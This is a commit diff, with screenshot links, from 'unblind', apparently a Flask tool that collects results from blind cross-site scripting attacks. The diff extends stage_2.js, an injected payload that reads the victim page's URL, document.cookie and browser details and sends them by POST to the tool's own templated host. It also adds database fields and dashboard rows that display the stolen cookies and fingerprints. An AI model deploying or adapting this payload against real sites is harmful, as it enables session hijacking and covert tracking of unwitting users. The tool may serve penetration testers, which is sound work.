

Before and after one commit to shellchocolat/unblind, a Flask app: page /unblind in a window 1280 px wide. Shown: the part 53-520 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; a user stored in the database is signed in; tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
code: add some info to grab

```diff
--- a/unblind/main.py
+++ b/unblind/main.py
@@ -117,6 +117,9 @@ def grab_info(xxx_uid):
         url = str(info["url"])
         cookie = str(info["cookie"])
         user_agent = str(info["user_agent"])
+        platform = str(info["platform"])
+        screen_resolution = str(info["screen_resolution"])
+        browser_size = str(info["browser_size"])
     except Exception as e:
         print(str(e))
         print("[-] Error_1 in get_info()")
@@ -125,6 +128,9 @@ def grab_info(xxx_uid):
     try:
         xxx = XSS.query.filter_by(xss_uid=xss_uid).first()
         if xxx:
+            xxx.platform = platform
+            xxx.screen_resolution = screen_resolution
+            xxx.browser_size = browser_size
             xxx.user_agent = user_agent
             xxx.cookie = cookie
             xxx.url = url
@@ -181,6 +187,9 @@ def unblind():
         content["xss_ip_from"] = x.xss_ip_from
         content["cookie"] = x.cookie
         content["user_agent"] = x.user_agent
+        content["platform"] = x.platform
+        content["screen_resolution"] = x.screen_resolution
+        content["browser_size"] = x.browser_size
         content["url"] = x.url
 
         xss_results[c] = content
--- a/unblind/models.py
+++ b/unblind/models.py
@@ -19,4 +19,7 @@ class XSS(UserMixin, db.Model):
     xss_stage_2 = db.Column(db.Boolean)
     cookie = db.Column(db.String(1000))
     user_agent = db.Column(db.String(1000))
+    platform = db.Column(db.String(100))
+    screen_resolution = db.Column(db.String(100))
+    browser_size = db.Column(db.String(100))
     url = db.Column(db.String(255))
--- a/unblind/static/js/payloads/stage_2.js
+++ b/unblind/static/js/payloads/stage_2.js
@@ -4,7 +4,10 @@ u = "http://{{IP}}:{{PORT}}{{INFO_ENDPOINT}}/{{UID}}";
 //console.log(document.cookie);
 j = {url: window.location.href,
     cookie: document.cookie,
-    user_agent: window.navigator.userAgent
+    user_agent: window.navigator.userAgent,
+    platform: window.navigator.platform,
+    screen_resolution: window.screen.width + "x" + window.screen.height,
+    browser_size: window.innerWidth + "x" + window.innerHeight
 };
 fetch(u, {
     method: "POST",
--- a/unblind/static/js/unblind.js
+++ b/unblind/static/js/unblind.js
@@ -17,3 +17,11 @@ function copy_clipboard(clicked_id) {
   var copyText = document.getElementById(clicked_id);
   navigator.clipboard.writeText(copyText.textContent);
 }
+
+function get_info() {
+  //console.log(window.location.href)
+  //console.log(document.cookie)
+  //console.log(window.navigator.userAgent)
+  //console.log(window.clientInformation)
+
+}
--- a/unblind/templates/payloads.html
+++ b/unblind/templates/payloads.html
@@ -80,5 +80,5 @@
 </div>
 
 <script src="{{ url_for('static', filename='js/unblind.js') }}"></script>
-
+<script>get_info()</script>
 {% endblock %}
--- a/unblind/templates/unblind.html
+++ b/unblind/templates/unblind.html
@@ -50,13 +50,16 @@
                             {% endif %}
                             <td class="column">
                               <div>
+                                <div><p><strong class="has-text-warning">Uid: </strong>{{ value.xss_uid }}</p></div>
                                 <div><p><strong class="has-text-warning">Created at: </strong>{{ value.xss_created_at }}</p></div>
                                 <div><p style="color:red"><strong class="has-text-warning">Value: </strong>{{ value.xss_value }}</p></div>
-                                <div><p><strong class="has-text-warning">IP (from): </strong>{{ value.xss_ip_from }}</p></div>
+                                <div><p><strong class="has-text-warning">Ip: </strong>{{ value.xss_ip_from }}</p></div>
                                 <div><p><strong class="has-text-warning">Url: </strong>{{ value.url }}</p></div>
                                 <div><p><strong class="has-text-warning">Cookie: </strong>{{ value.cookie }}</p></div>
                                 <div><p><strong class="has-text-warning">User-Agent: </strong>{{ value.user_agent }}</p></div>
-                                <div><p><strong class="has-text-warning">Uid: </strong>{{ value.xss_uid }}</p></div>
+                                <div><p><strong class="has-text-warning">Platform: </strong>{{ value.platform }}</p></div>
+                                <div><p><strong class="has-text-warning">Screen Resolution: </strong>{{ value.screen_resolution }}</p></div>
+                                <div><p><strong class="has-text-warning">Browser Size: </strong>{{ value.browser_size }}</p></div>
                               </div>
                             </td>
                         </tr>
```
